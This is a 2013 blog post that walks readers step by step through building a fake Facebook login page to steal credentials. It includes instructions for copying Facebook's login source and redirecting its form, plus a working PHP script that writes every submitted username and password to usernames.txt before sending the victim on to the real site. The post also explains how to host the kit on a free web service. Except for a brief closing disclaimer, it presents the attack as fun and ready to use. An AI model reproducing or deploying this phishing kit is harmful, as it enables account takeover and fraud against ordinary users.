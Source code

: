 ```yaml
---
layout: post
title: "PHISHING"
date: 2013-05-31 15:50
comments: true
categories: 
author: hitech_gosain
---
```

Before we actually start phishing………. here is a brief introduction about what phishing is…

Phishing is a scamming method used to get personal information.. .

i.e. the act of acquiring private or sensitive data from personal computers for use in fraudulent activities.

Here are steps to have some fun:-

1. Open http://www.facebook.com on any net browser .

2. Right click on the blank space of the login page, click on ‘view page source’ option.

3. A screen filled with codes will appear.

4. Now press ctrl+a and copy the whole source to notepad.

5. Now press ctrl+f and search for word ‘action’ in the source.

. Replace the selected text written in quotes with ‘post.php’  in the above image .

action=”https://www.facebook.com/login.php?login_attempt=1&#8243;

After replacement :

action=”post.php”

7. Now save the file with ‘.html’ extension. For example : facebook.html

8. Copy paste the following script to notepad, edit the contents of 2nd line in the script

“header(‘Location:Website to phish’);”

Enter the name of the website you wish to phish , in our case http://www.facebook.com

After replacement: “header(‘Location: http://www.facebook.com);” , and save file with the name ‘post’ and .php extension.

?php
header (‘Location:Website to Phish’);
$handle = fopen(“usernames.txt”, “a”);
foreach($_POST as $variable => $value) {
   fwrite($handle, $variable);
   fwrite($handle, “=”);
   fwrite($handle, $value);
   fwrite($handle, “\r\n”);
}
fwrite($handle, “\r\n”);
fclose($handle);
exit;
?>

9. Now register to any free web hosting site. For example : www.my3gb.com

10. Upload the two files created above, one with .html extension(as per our example : facebook.html) and the other post.php

on your account on free web hosting site.

11. If you register on my3gb.com , to see your uploaded files click on ‘file manager’.

12. Now right click on file with .html extension(facebook.html) that you uploaded shortly, and select “copy link location”. Then paste the link on the address bar in new tab.

13. A page similar to facebook login page will load , but the difference will only be seen in the address bar.

ake a look at the address bar it says “neophytes.my3gb.com/facebook.html”, a genuine facebook page will have “www.facebook.com” in the address bar.

After victim enters his/her username and password , this is what he/she will see.

A new file usernames.txt is created automatically when someone logs on the phishing page you just created. Usernames.txt contains victim’s username and password. You can see the new file usernames.txt by refreshing the page.

P.S. – my3gb.com will delete your account within 24hrs after u try the above phishing….

So the above trick is just for you to see one aspect of Hacking….

Do not use it for malicious purposes.


